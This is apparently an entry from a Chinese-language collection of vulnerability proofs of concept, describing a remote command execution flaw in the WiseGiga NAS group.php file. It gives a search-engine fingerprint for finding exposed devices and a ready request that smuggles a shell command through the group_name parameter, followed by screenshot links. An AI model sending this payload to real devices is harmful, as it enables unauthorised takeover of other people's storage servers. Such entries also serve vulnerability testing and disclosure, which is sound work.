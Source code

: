 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

<a-checkbox checked>WiseGiga NAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WISEGIGA-NAS"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626192524954.png)

验证POC

```php
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656242636704-5f2865a9-4521-4d83-9e09-e39794f8204b-20220626192504901.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656242655760-33a64203-f341-4af7-a9b8-5aeb1ff66859-20220626192501808.png)